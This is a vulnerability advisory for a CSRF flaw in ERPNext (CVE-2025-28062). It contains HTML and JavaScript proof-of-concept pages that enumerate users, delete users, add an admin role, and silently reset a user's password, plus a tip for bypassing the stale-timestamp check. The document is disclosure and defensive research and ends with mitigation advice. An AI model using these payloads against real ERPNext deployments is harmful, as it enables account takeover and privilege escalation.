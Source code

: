 # CVE-2025-28062 — CSRF Vulnerability to Account Takeover in ERPNext 14.82.1 , 14.74.3

## 📌 Summary

A **Cross-Site Request Forgery (CSRF)** vulnerability was discovered in **ERPNext 14.82.1 and 14.74.3**, allowing attackers to perform unauthorized actions such as:

- User enumeration  
- Account takeover (password reset)  
- Arbitrary user deletion  
- Privilege escalation (adding roles)

The vulnerability stems from a **lack of CSRF protection** on critical administrative API endpoints. If an authenticated administrator visits a malicious website, their session is abused to perform these actions without consent.

---

## 🛠 Technical Details

- **Vulnerability Type:** CSRF (CWE-352)  
- **Affected Product:** ERPNext  
- **Versions:** 14.82.1, 14.74.3  
- **Severity:** High  
- **CVSS v3.1 Score:** 8.1  
- **Status:** Not fixed  
- **Discovered by:** [Ahmed Thaiban](https://x.com/thvt0ne) Thvt0ne.  
- **Date Discovered:** 2025-02-09  
- **CVE ID:** CVE-2025-28062 (Reserved)

---

## 🚀 Proof of Concepts (PoCs)

### 1. User Enumeration

```html
<form method="GET" action="http://localhost:8080/api/method/frappe.desk.reportview.get">
  <input type="hidden" name="doctype" value="User">
  <input type="hidden" name="fields" value='["name", "user_type", "enabled"]'>
  <input type="hidden" name="view" value="List">
  <input type="hidden" name="page_length" value="100">
  <input type="submit" value="Submit">
</form>
<script>document.forms[0].submit();</script>
```

---

### 2. Delete User

```html
<a href="http://localhost:8080/api/method/frappe.desk.reportview.delete_items?items=%5B%221%401.com%22%5D&doctype=User">
  Click to delete user
</a>
```

---

### 3. Add Privileged Role to Any User

```html
<a href="http://localhost:8080/api/method/frappe.desk.form.save.savedocs?doc=REDACTED_PAYLOAD&action=Save">
  Add "System Manager" role to user
</a>
```

> 💡 *See full JSON payload in the repo: `/PoCs/privilege_escalation.html`*

---

### 4. Change Any User’s Password

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <script>
        function performCSRF() {
            // Target API URL
            var targetUrl = "http://localhost:8080/api/method/frappe.desk.form.save.savedocs"; 

            // JSON Payload
            var jsonPayload = JSON.stringify({"name":"11@1.com","owner":"Administrator","creation":"2025-02-09 03:50:24.709718","modified":"2025-02-09 09:49:02.334015","modified_by":"Administrator","docstatus":0,"idx":0,"enabled":1,"email":"11@1.com","first_name":"sdfvfvdfv","full_name":"sdfvfvdfv","username":"sdfvfvdfv","language":"en","time_zone":"America/Adak","send_welcome_email":1,"unsubscribed":0,"mute_sounds":0,"desk_theme":"Light","search_bar":1,"notifications":1,"list_sidebar":1,"bulk_actions":1,"view_switcher":1,"form_sidebar":1,"timeline":1,"dashboard":1,"new_password":"User123!@#","logout_all_sessions":1,"reset_password_key":"e801df93fa208e01314c981192fa842e63838d13bd75a76cba97d005d9eee513","last_reset_password_key_generated_on":"2025-02-09 03:50:25.700259","document_follow_notify":0,"document_follow_frequency":"Daily","follow_created_documents":0,"follow_commented_documents":0,"follow_liked_documents":0,"follow_assigned_documents":0,"follow_shared_documents":0,"thread_notify":1,"send_me_a_copy":0,"allowed_in_mentions":1,"simultaneous_sessions":2,"login_after":0,"user_type":"Website User","login_before":0,"bypass_restrict_ip_check_if_2fa_enabled":0,"onboarding_status":"{}","doctype":"User","roles":[],"defaults":[],"block_modules":[],"social_logins":[{"name":"qvh4mjk9r2","owner":"Administrator","creation":"2025-02-09 03:50:25.190297","modified":"2025-02-09 03:50:25.190297","modified_by":"Administrator","docstatus":0,"idx":1,"provider":"frappe","userid":"575ca3b88fc3d1fa8d2d7f419b0af0f156ff912","parent":"11@1.com","parentfield":"social_logins","parenttype":"User","doctype":"User Social Login"}],"user_emails":[],"__onload":{"all_modules":["Accounts","Assets","Automation","Bulk Transaction","Buying","CRM","Communication","Contacts","Core","Custom","Desk","EDI","ERPNext Integrations","Email","Geo","Integrations","Maintenance","Manufacturing","Portal","Printing","Projects","Quality Management","Regional","Selling","Setup","Social","Stock","Subcontracting","Support","Telephony","Utilities","Website","Workflow"]},"__last_sync_on":"2025-02-09T14:20:52.310Z","__unsaved":1});

            
            var encodedPayload = (jsonPayload);  

            // Create and submit the form
            var form = document.createElement("form");
            form.method = "GET";
            form.action = targetUrl;
            form.enctype = "application/x-www-form-urlencoded";  

            var input = document.createElement("input");
            input.type = "hidden";
            input.name = "doc";  // Correct parameter name
            input.value = encodedPayload;  // Correct encoding
            
            var input2 = document.createElement("input");
            input2.type = "hidden";
            input2.name = "action";  // Correct parameter name
            input2.value = "Save";  // Correct encoding
            
            
            form.appendChild(input);
            form.appendChild(input2);
            document.body.appendChild(form);
            form.submit();
        }

        // Execute CSRF after waiting to ensure cookies are set
        setTimeout(performCSRF, 3000);
    </script>
</body>
</html>
```


This picture simulates that admin entered any malicious website: 
 ![image](https://github.com/user-attachments/assets/64cebdd7-a9c8-406d-9008-fa47c7278c98)

Note: if Modified Timestamps is old website can give this message: 
![image](https://github.com/user-attachments/assets/f1ac2f17-fdcd-4ce2-bfb0-f9559b6efb76)

and to bypass it use http:// localhost:8080/api/resource/User/11@1.com[owner] html page and take the Modified timestamp (to make it easier for PoC).

![image](https://github.com/user-attachments/assets/2ca0b3f1-e862-4f12-bafc-df33db997294)

Change it in the page content to be the newer one :

![image](https://github.com/user-attachments/assets/dcc28278-9bbf-4320-b6db-184b7cf56345)

Once you send it it will change the password of the User!!.

![image](https://github.com/user-attachments/assets/83a40f78-0f70-42b7-9b0f-b87f95941526)

If an authenticated admin user visits this webpage, their session will be used to execute the account password changing request without any user interaction. 

---

## 🧪 Exploitation Scenario

An attacker hosts a malicious page. If an ERPNext admin visits it while logged in, their browser automatically triggers crafted requests to ERPNext, causing account modifications or deletions without their knowledge.

---

## 🔐 Mitigation Recommendations

- Enforce CSRF tokens on all state-changing endpoints  
- Disallow `GET` requests for actions like save/delete  
- Mark authentication cookies with `SameSite=Strict`  
- Require re-authentication for critical actions (e.g. password changes, role changes)

## 🔗 References

- [ERPNext GitHub](https://github.com/frappe/erpnext)  
- [Ahmed Thaiban – LinkedIn](https://sa.linkedin.com/in/ahmedth)  
- [OWASP CSRF Guide](https://owasp.org/www-community/attacks/csrf)

---

## 🙏 Acknowledgments

Discovered by **Ahmed Thaiban** Thvt0ne.

---

## 📢 Disclaimer

This research is intended for **defensive purposes only**. The goal is to raise awareness and encourage secure development practices.
